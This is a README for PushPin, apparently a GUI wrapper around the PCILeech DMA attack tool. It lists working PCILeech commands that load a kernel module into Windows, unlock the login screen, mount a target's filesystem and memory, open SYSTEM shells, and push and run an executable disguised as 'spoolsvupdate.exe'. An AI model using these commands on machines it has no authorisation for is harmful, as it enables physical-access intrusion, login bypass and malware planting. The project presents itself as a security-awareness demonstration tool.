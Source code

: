 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows7x64 or Windows 10x64  
* Unlock Windows 
* Mount the targets filesystem and memory
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](pushpin_description.PNG) 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Please ensure [PCILeech Version 4.6](https://github.com/ufrisk/pcileech) functions correctly with the commands listed above. 

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe.

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 Initial release.
